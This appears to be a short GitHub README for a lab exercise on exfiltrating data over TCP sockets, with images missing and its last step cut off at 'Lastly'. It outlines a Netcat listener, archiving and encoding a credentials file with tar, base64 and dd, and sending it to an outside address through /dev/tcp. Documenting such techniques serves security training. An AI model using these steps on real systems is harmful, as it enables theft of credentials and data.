

<h1>Data Exfiltration</h1>

<h2>Description</h2>
This repository will contain the method of performing data exfiltration using TCP Sockets.<br />

<h2>Exfiltration</h2>
<b>Step 1: Establish a NetCat Listener</b><br />
Establish a Netcat listener that will output received data to a file:
<p align="center">
  
</p><br/>
<b>Step 2: Transfer Data</b><br />
Next, we'll create an archive of the file using <i>tar zcf</i>, then we'll use <i>base64</i> to encode the data, lastly we'll create a backup <i>dd conv=ebcdic</i> and transfer it using TCP socket <i> > /dev/tcp/10.10.155.2/8080</i>: 
<p align="center">
  
</p><br/>
<b>Step 3: Decode and Extract the Content</b><br />
Finally, we'll convert the file to ascii <i>dd conv=ascii if=task4-creds.data</i>, decode the base64 <i>base64 -d > task4-creds.data.tar</i>. Lastly
<p align="center">
  
</p><br/>


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
